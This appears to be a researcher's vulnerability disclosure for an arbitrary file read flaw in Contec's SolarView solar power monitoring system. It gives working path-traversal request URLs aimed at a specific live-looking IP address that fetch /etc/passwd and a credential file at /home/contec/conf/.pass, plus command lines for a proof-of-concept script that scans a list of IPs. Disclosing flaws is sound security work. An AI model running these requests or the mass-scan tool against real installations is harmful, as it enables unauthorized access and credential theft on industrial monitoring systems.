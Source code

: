 # **太阳能发电监视系统（SolarView™）**

## Vulnerability description

Vulnerability name : Japan Contec Solar Power Monitoring System
(SolarView™) is not authorized to read arbitrary files.

Affected entity manufacturer name: Japan Contec Co., Ltd.

Affected Entity Name：**SolarView**

Introduction link：

<https://www.contec.com/cn/products-services/environmental-monitoring/solarview/>

## **security researcher**

name1: peishilong

Please contact email: <peisylon@foxmail.com>

## **Home Screenshot:**

![](./images/media/image1.png){width="5.759027777777778in"
height="2.229861111111111in"}

![](./images/media/image2.png){width="5.7625in"
height="3.1743055555555557in"}

## **Vulnerability location:**

Arbitrary file reading:

<http://114.173.169.190:8001/downloader.php?file=/home/contec/conf/../../../../../../etc/passwd>

<http://114.173.169.190:8001/downloader.php?file=/home/contec/conf/.pass>

![](./images/media/image3.png){width="5.754861111111111in"
height="2.2083333333333335in"}

![](./images/media/image4.png){width="5.7625in"
height="2.892361111111111in"}

POC:

python \"Contec SolarView arbitrary file read.py\" -f ip.txt

python \"Contec SolarView arbitrary file read.py\" -u http://ip:port

![](./images/media/image5.png){width="5.756944444444445in"
height="1.6194444444444445in"}

